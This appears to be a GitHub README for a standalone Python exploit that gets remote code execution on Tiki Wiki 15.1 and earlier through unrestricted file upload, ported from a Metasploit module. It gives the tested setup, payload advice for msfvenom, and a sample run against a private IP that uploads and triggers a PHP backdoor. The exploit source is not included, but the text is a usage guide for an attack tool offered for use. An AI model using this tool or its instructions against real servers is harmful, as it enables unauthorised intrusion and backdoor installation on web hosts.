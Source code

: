 # Tiki Wiki 15.1 unrestricted file upload exploit
Standalone Python 3 RCE exploit for Tiki Wiki <= 15.1 based on the [Metasploit module](https://www.exploit-db.com/exploits/40091).
This is a rewrite of the Metasploit module in Python, to be used outside Metasploit.

Tested with Python 3.7 on target Tiki Wiki 15.1 running on
* mysql 5.5.50
* php 5.6.40
* Ubuntu Server 16.04.6 LTS

Note the php payload doesn't execute if generated with base64 encoding. Don't use `-e php/base64` with `msfvenom`.
Explanatory [blog article here](https://ivanitlearning.wordpress.com/2019/09/25/ruby-exploit-rewrite-tiki-wiki-15-1-unrestricted-file-upload/).

## Usage
```
root@Kali:~/# ./tikiwiki_15.1_RCE.py -h
usage: tikiwiki_15.1_RCE.py [-h] -U URL -P PHP

Required arguments:
  -U URL, --url URL  URL of the Tiki Wiki page eg.
                     http://webserver.com/tikiwiki
  -P PHP, --php PHP  Path to php payload eg. payload.php
root@Kali:~/# ./tikiwiki_15.1_RCE.py --url 'http://192.168.92.151/tiki' --php payload.php
Target is vulnerable
Uploading backdoor file: ClLiqPSD.php
Backdoor successfully created
Triggering the exploit...
```
